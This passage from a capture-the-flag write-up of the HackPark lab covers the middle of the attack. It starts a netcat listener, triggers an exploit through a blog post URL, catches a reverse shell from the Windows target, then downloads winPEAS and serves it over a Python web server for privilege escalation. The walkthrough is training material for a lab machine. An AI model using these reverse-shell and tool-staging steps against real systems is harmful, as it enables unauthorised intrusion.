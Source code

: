 Now save the updated post:

![hackpark-savepost](/assets/images/2021-01-30-17-15-07.png)

Back on Kali we set a NetCat session listening:

```text
root@kali:/home/kali/thm/hackpark# nc -nlvp 1234
listening on [any] 1234 ...
```

THen as described in the exploit we browse to the URL mentioned:

![hackpark-exploiturl](/assets/images/2021-01-30-17-20-54.png)

When we switch back to NetCat, and we have a connection:

```text
root@kali:/home/kali/thm/hackpark# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.14.6.200] from (UNKNOWN) [10.10.60.43] 49708
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
```

First lets see who we are connected as, which will help with task 3:

```text
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

## Privilege escalation

For Windows boxes the quickest way to find interesting areas to look further in to is using an enumeration script. A few different ones exist but let's go with winPEAS as described in the room:

```text
kali@kali:~/thm/hackpark$ wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe
```

We need a web server running on Kali so we can pull files from it to the HackPark server where we have our initial shell:

```text
kali@kali:~/thm/hackpark$ python3 -m http.server
```
